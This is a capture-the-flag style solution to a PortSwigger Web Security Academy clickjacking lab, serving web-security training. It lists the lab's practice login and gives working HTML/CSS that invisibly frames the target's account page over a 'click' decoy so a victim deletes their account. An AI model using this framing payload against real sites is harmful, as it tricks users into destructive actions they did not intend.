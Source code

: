 # [Lab: Basic clickjacking with CSRF token protection](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected)

## Lab

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`

## Solutions

Craft a response at exploit-server:

```html
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.3;
        z-index: 2;
    }
    div {
        position:absolute;
        top:500px;
        left:60px;
        z-index: 1;
    }
</style>
<div>click</div>
<iframe src="https://id.web-security-academy.net/my-account"></iframe>
```
